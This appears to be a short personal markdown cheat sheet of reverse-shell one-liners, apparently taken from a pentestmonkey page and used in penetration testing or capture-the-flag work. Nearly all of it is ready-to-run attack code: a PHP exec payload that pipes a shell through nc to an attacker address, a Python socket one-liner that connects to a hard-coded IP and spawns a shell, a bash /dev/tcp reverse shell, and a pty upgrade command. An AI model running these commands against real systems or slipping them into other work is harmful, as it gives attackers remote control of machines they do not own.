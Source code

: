 # Reverse Shell
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Simple PHP one-liner
`<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attackip> <attackport> >/tmp/f")?>`

# Simple python one-liner
`python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.9.13.38",80));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'`

# Simple bash
#!/bin/bash
bash -i >& /dev/tcp/x.x.x.x/pppp 0>&1

## Shell upgrade to tty
`python -c 'import pty;pty.spawn("/bin/bash")'; #spawn a python psuedo-shell`